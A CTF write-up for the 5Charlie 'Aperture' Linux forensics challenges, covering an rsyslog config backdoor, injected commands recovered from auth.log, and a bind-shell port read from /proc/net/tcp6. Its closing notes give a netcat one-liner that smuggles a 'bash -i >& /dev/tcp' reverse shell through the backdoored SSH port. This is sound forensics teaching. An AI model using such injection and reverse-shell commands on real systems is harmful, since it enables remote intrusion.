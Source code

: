 ```yaml
---
title: "5Charlie CTF - Aperture"
date: 2020-04-25 01:31:48 -0500
classes: wide
categories: 
- write-up
tags:
- ctf
- write-up
- forensics
- linux
---
```


A write-up of the Aperture Linux live system forensics challenge from 5Charlie CTF.

## Aperture 1

## Aperture 1 - Challenge

To access these challenges, ssh to wheatley@analysis.5charlie.com

What is the full path to the configuration file that has been backdoored to allow command execution through OpenSSH?

**Attachments:** `id_wheatly` - SSH Key

### Aperture 1 - Solution

Getting our bearings on the system we very quickly find that this system is a very minimal isolated Docker container.
Let's try to figure out what may have been played with by figuring out the most recently modified files

We'll specifically be using the `-t (sort by modifcation time)` flag and `-r (reverse sorting)` flag on our `ls` so that it gives us the most likely files closest to our prompt at the bottom.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
total 80
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   1 root root 4096 Mar 11 21:03 usr
drwxr-xr-x   2 root root 4096 Mar 11 21:03 srv
drwxr-xr-x   2 root root 4096 Mar 11 21:03 opt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   1 root root 4096 Mar 11 21:05 var
drwx------   2 root root 4096 Mar 11 21:05 root
dr-xr-xr-x  13 root root    0 Apr 10 19:45 sys
drwxr-xr-x   1 root root 4096 Apr 13 04:57 lib
drwxr-xr-x   1 root root 4096 Apr 13 04:57 sbin
drwxr-xr-x   1 root root 4096 Apr 13 04:58 bin
-rwxr-xr-x   1 root root    0 Apr 25 06:36 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 25 06:36 ..
drwxr-xr-x   1 root root 4096 Apr 25 06:36 .
dr-xr-xr-x 142 root root    0 Apr 25 06:36 proc
drwxr-xr-x   1 root root 4096 Apr 25 06:36 run
drwxr-xr-x   5 root root  400 Apr 25 06:36 dev
drwxr-xr-x   1 root root 4096 Apr 25 06:36 etc
drwxrwxrwt   1 root root 4096 Apr 25 06:36 tmp
wheatley@e2a54f310336:/$
```

There's nothing of interest in `/tmp` so next we dig into `/etc` which has plenty of configuration files that could be tweaked to cause security problems.

Let's continue down.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
...[truncated]
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc4.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc3.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc2.d
-rw-r--r-- 1 root root    1252 Apr 13 04:57 passwd-
-rw-r--r-- 1 root root   13548 Apr 13 04:57 ld.so.cache
-rw-r--r-- 1 root root      22 Apr 13 04:58 subuid
-rw-r--r-- 1 root root      22 Apr 13 04:58 subgid
-rw-r----- 1 root shadow   691 Apr 13 04:58 shadow
-rw-r--r-- 1 root root    1297 Apr 13 04:58 passwd
-rw-r----- 1 root shadow   499 Apr 13 04:58 gshadow
-rw-r--r-- 1 root root     596 Apr 13 04:58 group
-rw-r--r-- 1 root root      36 Apr 13 04:58 ld.so.preload
drwxr-xr-x 1 root root    4096 Apr 13 04:58 ssh
drwxr-xr-x 1 root root    4096 Apr 13 04:58 rsyslog.d
lrwxrwxrwx 1 root root      12 Apr 25 06:36 mtab -> /proc/mounts
drwxr-xr-x 1 root root    4096 Apr 25 06:36 ..
-rw-r--r-- 1 root root     174 Apr 25 06:36 hosts
-rw-r--r-- 1 root root      13 Apr 25 06:36 hostname
-rw-r--r-- 1 root root      97 Apr 25 06:36 resolv.conf
-rw-r--r-- 1 root root    1358 Apr 25 06:36 rsyslog.conf
-r--r----- 1 root root     755 Apr 25 06:36 sudoers
drwxr-xr-x 1 root root    4096 Apr 25 06:36 .
wheatley@e2a54f310336:/etc$
```

Attempting to check our sudo privileges with `sudo -l` gives us a password prompt: no dice.

`hosts`, `hostname`, `resolv.conf`, and `mtab` were modified by Docker coming up. We can look, but it's nothing relevant.

`rsyslog.conf` and `rsyslog.d` were recently modified; that's a bit strange. Looking up rsyslog backdoors gives us Jacob Lell's post as the first result: <https://www.jakoblell.com/blog/2014/05/07/hacking-contest-backdooring-rsyslogd/>

In our own `/etc/rsyslog.d/rsyslog-README.conf` we can immediately see `auth.* ^/bin/atg` on line 77: an exact match to the blog post.

**Flag:** `/etc/rsyslog.d/rsyslog-README.conf`

## Aperture 2

### Aperture 2 - Challenge

What is the flag sent to the backdoored service?

### Aperture 2 - Solution

The backdoor commands are logged in `/var/log/auth.log` because it operates on the same port as SSH.

We can see that (if you tested connecting yourself) `auth.log` logs the attempts as `Bad protocol version identification <cmd>`.

To find the flag sent to the service historically, we can grep for that.

{% highlight bash %}
cat /var/log/auth.log | grep 'Bad proto'
{% endhighlight %}

``` text
Apr 13 04:33:58 5985561554b6 sshd[632]: Bad protocol version identification '';echo ZmxhZ3thbHdheXNfY2hlY2tfeW91cl9sb2dzfQo=;'' from 172.19.0.2 port 46120
Apr 13 04:34:37 5985561554b6 sshd[878]: Bad protocol version identification '';touch /tmp/owned;'' from 172.19.0.2 port 46122
wheatley@e2a54f310336:/etc$
```

We see a base64 encoded string, which, when decoded, gives us our flag.

**Flag:** `flag{always_check_your_logs}`

## Aperture 3

### Aperture 3 - Challenge

What port on this host is hosting a malicious bind shell?

### Aperture 3 - Solution

Since this host doesn't have anything like `netstat` or `ss`, we'll need to examine the `/proc` directory to determine open ports.

Nothing of interest in `/proc/net/tcp` or `/proc/net/udp`.

But if we look at `/proc/net/tcp6` we notice can see that there is a port bound to the wildcard (`::` aka the repeating zeros on index 1) with a port of hexidecimal `19B7`.

``` text
wheatley@09f81ab696ac:/tmp$ cat /proc/net/tcp6
  sl  local_address                         remote_address                        st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 00000000000000000000000000000000:0016 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 2142157 1 ffff888153b1cc80 100 0 0 10 0
   1: 00000000000000000000000000000000:19B7 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 2142057 1 ffff888153b1ee80 100 0 0 10 0
```

Converting that port to decimal, we have our flag.

``` text
➜  ~ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x19B7
6583
```

**Flag:** `6583`

## Additional Notes

I have a bad habit of losing focus in CTFs a bit and playing around with the environment. Here is a line to leverage the provided backdoor as a shell instead of single-command.

{% highlight bash %}
nc -nvlp 1234 &
echo "';bash -i >& /dev/tcp/127.0.0.1/1234 0>&1;'"|nc 127.0.0.1
fg
{% endhighlight %}
